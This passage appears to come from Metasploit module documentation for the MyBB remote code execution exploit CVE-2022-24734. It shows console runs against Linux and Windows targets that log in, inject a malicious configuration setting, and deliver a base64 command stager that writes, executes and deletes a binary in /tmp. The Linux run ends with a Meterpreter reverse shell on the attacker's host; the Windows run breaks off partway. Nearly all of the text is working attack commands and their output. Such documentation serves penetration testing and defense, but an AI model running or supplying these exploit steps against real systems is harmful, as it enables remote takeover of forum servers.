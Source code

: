 ```
index.php
jscripts
modules
styles
^C
Abort session 3? [y/N]  y
```

### Linux (target 2 - linux (Dropper))
```
msf exploit(multi/http/mybb_rce_cve_2022_24734) > run Verbose=true LHOST=192.168.0.48 RHOSTS=127.0.0.1 RPORT=8080 USERNAME=msfuser PASSWORD=123456
[*] Started reverse TCP handler on 192.168.0.48:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] MyBB forum found running at /
[!] The service is running, but could not be validated.
[*] Attempting login
[+] Login successful!
[*] Adding a malicious settings
[*] Generated command stager: ["echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towKgBE2gCABFcieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZsmqwA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/UAznK.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/jHFeb' < '/tmp/UAznK.b64' ; chmod +x '/tmp/jHFeb' ; '/tmp/jHFeb' ; rm -f '/tmp/jHFeb' ; rm -f '/tmp/UAznK.b64'"]
[*] Adding a crafted configuration setting entry with the payload
[+] Payload successfully sent
[*] Triggering the payload execution
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (989032 bytes) to 192.168.0.48
[*] Meterpreter session 4 opened (192.168.0.48:4444 -> 192.168.0.48:50213) at 2022-05-23 15:43:26 +0200
[*] Removing the configuration setting
[*] Grab the delete parameters
[*] Send the delete request
[*] Shell incoming...
[*] Command Stager progress - 100.00% done (763/763 bytes)

meterpreter > sysinfo
Computer     : 172.18.0.4
OS           :  (Linux 5.10.76-linuxkit)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

### Windows (target 3 - Windows (In-Memory))
```
msf exploit(multi/http/mybb_rce_cve_2022_24734) > set target 4
target => 4
msf exploit(multi/http/mybb_rce_cve_2022_24734) > run Verbose=true LHOST=192.168.1.44 RHOSTS=192.168.1.215 USERNAME=msfuser PASSWORD=123456

[*] Powershell command length: 4160
[*] Started reverse TCP handler on 192.168.1.44:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] MyBB forum found running at /
[!] The service is running, but could not be validated.
[*] Attempting login
[+] Login successful!
[*] Adding a malicious settings
```